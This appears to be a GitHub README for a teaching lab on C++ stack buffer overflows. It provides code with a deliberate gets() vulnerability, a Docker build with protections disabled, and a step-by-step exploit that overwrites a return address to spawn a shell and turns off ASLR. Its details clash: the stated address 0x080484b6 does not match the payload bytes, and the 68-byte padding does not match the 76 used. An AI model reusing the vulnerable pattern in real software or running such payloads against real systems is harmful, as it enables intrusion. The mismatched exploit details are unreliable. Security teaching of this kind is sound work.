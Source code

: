 # Objective
# 🛡️ Teaching Buffer Overflow in C++

# 👨‍🏫 **Objective**: Understand how unsafe input functions in C/C++ can be exploited to alter program flow.

# Install 
## Clone the Repository 
```
git clone git@github.com:gtoscano/buffer-overflow.git
cd buffer-overflow
docker build -t buffer-overflow .
docker run -it buffer-overflow
```



---

## 🧠 What You’re About to Do

We'll exploit a simple C++ program that:

1. Uses `gets()` (unsafe)
2. Has a 64-byte buffer on the stack
3. Fails to check input size

👾 **Goal**: Redirect execution to a hidden `secret()` function.

---

## 🧪 The Vulnerable Code

```cpp
#include <iostream>
#include <cstdio>
#include <cstdlib>

void secret() {
    std::cout << "Access granted to secret!\n";
    system("/bin/sh");
}

void vulnerable() {
    char buffer[64];
    std::cout << "Enter text: ";
    gets(buffer);  // 💣 buffer overflow possible here!
}

int main() {
    vulnerable();
    return 0;
}
```

---

## 🐳 Set Up the Environment

```dockerfile
FROM ubuntu:12.04

RUN sed -i 's|archive.ubuntu.com|old-releases.ubuntu.com|g' /etc/apt/sources.list && \
    apt-get update && apt-get install -y build-essential gdb && apt-get clean

COPY vuln.cpp /vuln.cpp
RUN g++ -fno-stack-protector -z execstack vuln.cpp -o vuln
CMD ["/bin/bash"]
```

---

## 🔍 Step 1: Find `secret()` Address

Run:

```bash
gdb ./vuln
```

Then in `gdb`:

```gdb
info functions secret
```

Example output:

```
0x080484b6  secret()
```

---

## 🧮 Step 2: Calculate Overflow

Stack layout in `vulnerable()`:

```
[ buffer (64 bytes) ]
[ saved EBP (4 bytes) ]
[ return address (4 bytes) ] 👈 we overwrite this
```

➡️ Total: **68 bytes padding** + 4 bytes address

---

## 💥 Step 3: Craft the Payload

Assuming `secret()` is at `0x080484b6`:

```bash
python -c 'print "A"*76 + "\x74\x86\x04\x08"' > payload
```
or:

```bash
for i in $(seq 60 78); do
  echo "Trying offset: $i"
  python -c "print 'A'*$i + '\x74\x86\x04\x08'" > payload
  ./vuln < payload && echo "💥 Success at offset $i!"
done
```


Run the attack:

```bash
./vuln < payload
```

💡 If successful: you get a shell!

---

## 🚧 Disable ASLR (for predictability)

```bash
echo 0 > /proc/sys/kernel/randomize_va_space
```

This ensures addresses like `0x080484b6` are stable.

---

## 🧠 Learning Takeaways

✅ Stack layout  
✅ Unsafe input = security risk  
✅ Return address hijack  
✅ Importance of memory-safe coding

---

## 🙏 Use Responsibly

- **For educational purposes only**
- Never exploit systems without permission
- Use modern practices: `fgets`, stack canaries, ASLR, PIE, etc.

---

# 🎓 Thank You!

Questions?  
Let's explore secure coding together!

